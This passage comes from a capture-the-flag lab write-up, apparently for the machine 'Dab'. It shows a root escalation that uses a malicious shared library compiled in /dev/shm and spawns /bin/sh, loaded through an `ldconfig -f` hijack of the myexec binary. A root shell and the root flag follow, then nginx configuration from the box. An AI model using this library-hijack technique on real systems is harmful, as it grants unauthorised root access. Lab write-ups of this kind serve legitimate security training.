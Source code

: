 ```
/dev/shm/.a.c:4:5: warning: implicit declaration of function ‘execl’ [-Wimplicit-function-declaration]
     execl("/bin/sh","sh",0);
     ^
/dev/shm/.a.c:4:5: warning: incompatible implicit declaration of built-in function ‘execl’
/dev/shm/.a.c:4:5: warning: missing sentinel in function call [-Wformat=]

```

I’ll make sure to `ldconfig -f df.conf` if I cleared it earlier or if [somehow it got reset](#cleanup). Then I can run `myexec` and get a root shell:

```

genevieve@dab:/dev/shm$ myexec 
Enter password: s3cur3l0g1n
Password is correct

# id
uid=0(root) gid=0(root) groups=0(root),1000(genevieve)
# /bin/bash
root@dab:/dev/shm#

```

I can grab root.txt:

```

root@dab:/root# cat root.txt 
45cd53a8...

```

## Beyond Root

### Web Config / Memcache

It’s always interesting to look at how the web application is set up, and this is an interesting case. Both sites are running as Python Flask applications. The server is using `nginx` with a wsgi pass to `python`.

#### nginx

The `nginx` configs are in `/etc/nginx/sites-enabled`:

```

root@dab:/etc/nginx/sites-enabled# ls
dev  prod

root@dab:/etc/nginx/sites-enabled# cat prod 
server {
    listen 80;
    server_name dab.htb;
    
    location / {
        include uwsgi_params;
        uwsgi_pass unix:/var/www/prod/prod.sock;
    }
}

root@dab:/etc/nginx/sites-enabled# cat dev 
server {
    listen 8080;
    server_name dab.htb;
```
